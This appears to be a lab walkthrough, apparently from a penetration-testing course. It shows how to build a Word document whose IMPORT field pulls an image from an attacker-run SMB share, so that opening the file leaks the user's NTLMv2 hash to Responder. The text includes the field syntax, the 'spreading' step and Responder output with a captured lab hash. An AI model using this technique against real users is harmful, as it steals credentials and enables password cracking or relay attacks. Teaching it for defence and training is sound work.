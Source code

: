 While Responder is typically used to poison broadcast protocols such as LLMNR, we will now
demonstrate a more interesting way of obtaining NTLMv2 challenge-responses.
Using Remote Objects in Word, we can trick a Windows machine to retrieve an image from a
remote server. This would include an authentication attempt, as the Windows machine would
automatically use Single Sign On (SSO) to try to connect to the network share to retrieve the
image.

## Step 1
Create file

## Step 2
Create a Remote Object 
By pressing Ctrl + F9 Word will create a new empty object, which you can observe in the
below screenshot (i.e. { } ).

Within the curly-brackets ( { } ) proceed to import a network path using the below syntax.

```
IMPORT "\\\\192.168.20.107\\1.jpg"
```

Once done, a nal setting has to be dened to ensure our vicitms connect to our malicious
SMB server. By right-clicking the remote object and selecting "Edit Field...", open the "Field"
window. From the right-pane's "Field options" section, make sure to check the "Data not stored
with document" check-box.
Once done, close the window by pressing the "OK" button.

## Saving and Spreading
With our malicious Word document ready, proceed to save it using the Ctrl + s key-
combination. Make sure to select "Save As" in the blue left-pane after which you can save it on
"This PC", using any name you wish.

You can now proceed to open the Word document, optionally from another Word-equiped
machine and/or user.

## Checking Results
If you switch back to the Responder session, you will notice a multitude of collected hashes.
Do note that the below output is trimmed as Windows will insist on connecting to the server, so
we'll capture the NTLMv2 Challenge-Response multiple times.

```
__
.----.-----.-----.-----.-----.-----.--| |.-----.----.
| _| -__|__ --| _ | _ | | _ || -__| _|
|__| |_____|_____| __|_____|__|__|_____||_____|__|
|__|
NBT-NS, LLMNR & MDNS Responder 3.0.0.0
Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CTRL-C
/!\ Warning: files/AccessDenied.html: file not found
/!\ Warning: files/BindShell.exe: file not found
[+] Poisoners:
LLMNR [ON]
NBT-NS [ON]
DNS/MDNS [ON]
[+] Servers:
HTTP server [ON]
HTTPS server [ON]
WPAD proxy [OFF]
Auth proxy [ON]
SMB server [ON]
Kerberos server [ON]
SQL server [ON]
FTP server [ON]
IMAP server [ON]
POP3 server [ON]
SMTP server [ON]
DNS server [ON]
LDAP server [ON]
RDP server [ON]
[+] HTTP Options:
Always serving EXE [OFF]
Serving EXE [OFF]
Serving HTML [OFF]
Upstream Proxy [OFF]
[+] Poisoning Options:
Analyze Mode [OFF]
Force WPAD auth [ON]
Force Basic Auth [OFF]
Force LM downgrade [OFF]
Fingerprint hosts [OFF]
[+] Generic Options:
Responder NIC [ens192]
Responder IP [192.168.20.107]
Challenge set [random]
Don't Respond To Names ['ISATAP']
[!] Error starting TCP server on port 80, check permissions or other servers
running.
[!] Error starting SSL server on port 443, check permissions or other servers
running.
[+] Listening for events...
[SMB] NTLMv2-SSP Client : 192.168.20.105
[SMB] NTLMv2-SSP Username : sec699-40\student_ladm
[SMB] NTLMv2-SSP Hash : student_ladm::sec699-
40:9865961408a2cff0:66140EB41145D1D72F619199864D5819:0101000000000000C0653150DE09D2
[+] Exiting...
```
